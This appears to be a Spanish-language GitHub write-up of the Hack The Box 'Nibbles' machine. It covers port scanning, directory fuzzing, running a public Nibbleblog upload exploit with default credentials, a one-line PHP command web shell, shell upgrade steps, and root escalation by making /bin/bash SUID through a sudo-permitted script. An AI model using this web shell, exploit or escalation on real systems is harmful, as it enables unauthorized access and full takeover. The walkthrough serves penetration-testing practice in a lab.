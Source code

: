# Nibbles-HTB
Resolucion de la maquina

## NMAP

```
nmap -sS -Pn -p- -vvv 10.129.78.48 -oG ports
nmap -sSV -p22,80 10.129.78.48 -oN Scan
```

## FFUF

```
ffuf -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ

```

## WFUZZ

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ
```
## searchsploit

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/067c5f78-efb1-4b02-bbe8-25396bb2ed12)


```
searchsploit nibbleblog
## Examine
searchsploit -x php/remote/38489.rb
```

> https://github.com/dix0nym/CVE-2015-6967

Examinando el exploit vemos que se puede ingresar con el password por nibbles y un usuario que habiamos identificado ya admin.


## RCE

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```

En el exploit vemos a ruta y ademas que renombra el archivo al de shell.php a image.php.

## Full tty

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
xterm
export TERM=xterm
export SHELL=/bin/bash
```


## Privilege Escalation

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/12047cef-97a8-4ca2-b78c-4fc7f5f7666d)

Esto quiere decir que podemos ejecutar como root y sin password monitor.sh

```
mkdir -p personal/stuff
touch monitor.sh

sudo -u root /home/nibble/personal/sutff/monitor.sh

#!/bin/bash

chmod u+s /bin/bash
bash -p # la bandera privilege

```


































